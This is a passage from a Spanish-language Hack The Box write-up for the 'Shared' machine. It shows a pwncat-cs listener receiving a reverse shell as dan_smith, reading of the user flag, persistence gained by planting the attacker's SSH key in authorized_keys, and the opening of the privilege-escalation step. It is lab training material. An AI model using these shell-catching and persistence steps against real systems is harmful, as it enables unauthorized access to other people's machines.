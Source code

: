 Al cabo de unos segundos..
```shell
$ sudo pwncat-cs -lp 443
/usr/local/lib/python3.11/dist-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[12:37:00] Welcome to pwncat 🐈!                                           __main__.py:164
[12:37:01] received connection from 10.129.250.135:38510                        bind.py:84
[12:37:01] 0.0.0.0:443: normalizing shell path                              manager.py:957
[12:37:02] 10.129.250.135:38510: registered new host w/ db                  manager.py:957
(local) pwncat$ back
(remote) dan_smith@shared:/opt/scripts_review$ whoami
dan_smith
```

Y podemos leer la flag de usuario
```shell
(remote) dan_smith@shared:/home/dan_smith$ cat user.txt 
7d60bf7a99bbf213....
```

Al cabo de unos segundos perdemos la conexión, así que vamos a agregar mi clave pública de atacante al `/home/dan_smith/.ssh/authorized_keys` para asegurar persistencia.

```shell
$ cp /home/pointedsec/.ssh/id_rsa.pub  .
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/shared/content]
└──╼ [★]$ mv id_rsa.pub authorized_keys
```

Simplemente con `pwncat-cs` al recibir la conexión.

`upload authorized_keys /home/dan_smith/.ssh/authorized_keys`

Y ya podemos iniciar sesión mediante SSH.
```shell
$ ssh dan_smith@shared.htb
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$ whoami
dan_smith
```

# Privilege Escalation
Vemos que el usuario `dan_smith` pertenece a un grupo `sysadmin`

```shell
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```

